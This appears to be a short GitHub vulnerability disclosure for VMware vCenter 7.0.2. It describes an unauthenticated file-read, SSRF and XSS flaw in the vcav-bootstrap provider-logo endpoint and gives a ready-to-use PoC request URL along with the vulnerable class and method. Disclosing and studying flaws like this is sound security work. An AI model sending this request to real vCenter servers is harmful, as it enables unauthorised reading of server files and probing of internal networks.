



# VMware vCenter earlier versions (7.0.2) has unauthorized arbitrary file read + ssrf + xss vulnerability
## POC
https://{vCenterserver}/ui/vcav-bootstrap/rest/vcav-providers/provider-logo?url={url}

File read:

SSRF + XSS:

## vulnerable code:
/etc/vmware/vsphere-ui/cm-service-packages/com.vmware.cis.vsphereclient.plugin/com.vmware.h4.vsphere.client-0.4.1.0/plugins/h5-vcav-bootstrap-service.jar

com.vmware.h4.vsphere.ui.bootstrap.controller.ProvidersController.getProviderLogo()

Tested on vCenter 7.0.2.00100, not knowing the exact affected version range or cve id
